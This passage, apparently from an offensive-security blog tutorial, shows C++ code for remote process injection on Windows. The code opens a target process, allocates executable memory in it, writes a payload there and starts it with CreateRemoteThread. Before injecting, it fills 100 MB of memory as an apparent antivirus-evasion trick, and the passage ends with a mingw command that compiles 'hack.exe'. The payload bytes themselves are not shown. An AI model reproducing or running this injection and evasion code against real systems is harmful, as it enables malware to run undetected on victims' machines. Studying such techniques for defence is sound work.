 ```cpp
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(pid));
    printf("PID: %i", pid);

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, sizeof(my_payload), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

    // "copy" data between processes
    WriteProcessMemory(ph, rb, my_payload, sizeof(my_payload), NULL);

    // our process start new thread
    rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
    CloseHandle(ph);
    return 0;
  }
}
```

Let's go to compile:   
```bash
x86_64-w64-mingw32-g++ hack.cpp -o hack.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av 2](/assets/images/34/2021-12-26_16-41.png){:class="img-responsive"}    

